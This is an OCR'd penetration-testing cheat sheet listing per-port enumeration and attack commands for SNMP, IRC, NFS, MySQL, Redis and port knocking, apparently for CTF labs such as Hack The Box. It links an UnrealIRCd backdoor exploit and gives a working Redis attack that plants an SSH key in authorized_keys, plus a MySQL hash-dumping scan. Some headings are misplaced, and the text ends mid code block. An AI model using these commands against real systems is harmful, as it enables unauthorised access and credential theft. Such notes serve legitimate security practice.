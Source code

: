 ## **SNMP (161)** 
```
1. snmpwalk -c public -v1 <IP>
2. snmpcheck -t <IP> -c public
3. onesixtyone -c names -i hosts
4. nmap -sT -p 161 <IP> -oG snmp_results.txt
5. snmpenum -t <IP>
```
## **IRC (194,6667,6660-7000)**
```
1. nmap -sV --script irc-botnet-channels,irc-info,irc-unrealircd-backdoor -p 194,6660-7000 irked.htb
2. https://github.com/Ranger11Danger/UnrealIRCd-
```

## **3.2.8.1-Backdoor (exploit code)**
```
1. NFS (2049)
2. showmount -e <IP>
3. mkdir /mnt/nfs
4. mount -t nfs <IP>:/nfspath-shown /mnt/nfs
5. Permission Denied ? (https://blog.christophetd.fr/write-up-vulnix/)
```

## **MYSQL (3306)**
* ```
 nmap -sV -Pn -vv <IP> -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122
```

## **Redis (6379)**
In the output of config get * you could find the home of the redis user (usually /var/lib/redis or /home/redis/.ssh), and knowing this you know where you can write the authenticated_users file to access via ssh with the user redis. If you know the home of other valid user where you have writable permissions you can also abuse it: 

1. Generate a ssh public-private key pair on your pc: ssh-keygen -t rsa
2. Write the public key to a file : (echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt
3. Import the file into redis : cat foo.txt | redis-cli -h 10.10.10.10 -x set crackit 
4. Save the public key to the authorized_keys file on redis server:

```
root@Urahara:~# redis-cli -h <IP>

10.85.0.52:6379> config set dir /home/test/.ssh/
OK
10.85.0.52:6379> config set dbfilename "authorized_keys"
OK
10.85.0.52:6379> save
OK
```

## **Port Knocking :**
```
TCP
knock -v <ip> 4 27391 159
